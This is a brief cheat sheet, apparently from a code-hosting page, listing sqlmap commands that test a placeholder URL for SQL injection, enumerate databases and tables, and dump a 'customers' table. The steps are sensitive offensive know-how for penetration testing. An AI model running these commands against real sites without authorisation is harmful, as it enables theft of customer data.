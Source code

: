 #### Test parameters for SQL injection vulnerability
***Always start with a valid URL! Always put the URL in quotes!***
```
sqlmap -u 'http://www.site.com/page&param=1?param=2'
```

#### Enumerate databases
```
sqlmap -u 'http://www[...]=1?param=2' --dbs
```

#### Enumerate tables for the selected database `dbname`
```
sqlmap -u 'http://www.[...]=1?param=2' -D dbname --tables
```

#### Retrieve all rows in the customers `dbname.customers` table
```
sqlmap -u 'http://www.[...]=1?param=2' -D dbname -T customers --dump
```